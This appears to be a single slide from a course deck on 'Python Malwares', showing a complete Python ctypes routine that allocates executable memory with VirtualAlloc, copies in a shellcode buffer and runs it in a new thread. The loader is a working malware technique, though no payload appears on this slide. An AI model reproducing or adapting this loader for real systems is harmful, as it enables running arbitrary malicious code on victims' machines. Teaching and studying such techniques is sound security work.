

Python Malwares (cont.)
Running Shellcode With ctypes (cont.)
Now, we define our main function:
def main():
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_void_p
    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_void_p(0),
                                          ctypes.c_uint(len(shellcode)),
                                          ctypes.c_uint(0x3000),
                                          ctypes.c_uint(0x40))

    buf = ctypes.create_string_buffer(shellcode)

    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_void_p(ptr),
                                     buf,
                                     ctypes.c_uint(len(shellcode)))

    ht = ctypes.windll.kernel32.CreateThread(ctypes.c_uint(0),
                                         ctypes.c_uint(0),
                                         ctypes.c_void_p(ptr),
                                         ctypes.c_void_p(0),
                                         ctypes.c_uint(0),
                                         ctypes.pointer(ctypes.c_uint(0)))

    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_void_p(ht), ctypes.c_uint(-1))
if __name__ == "__main__":
    main()
120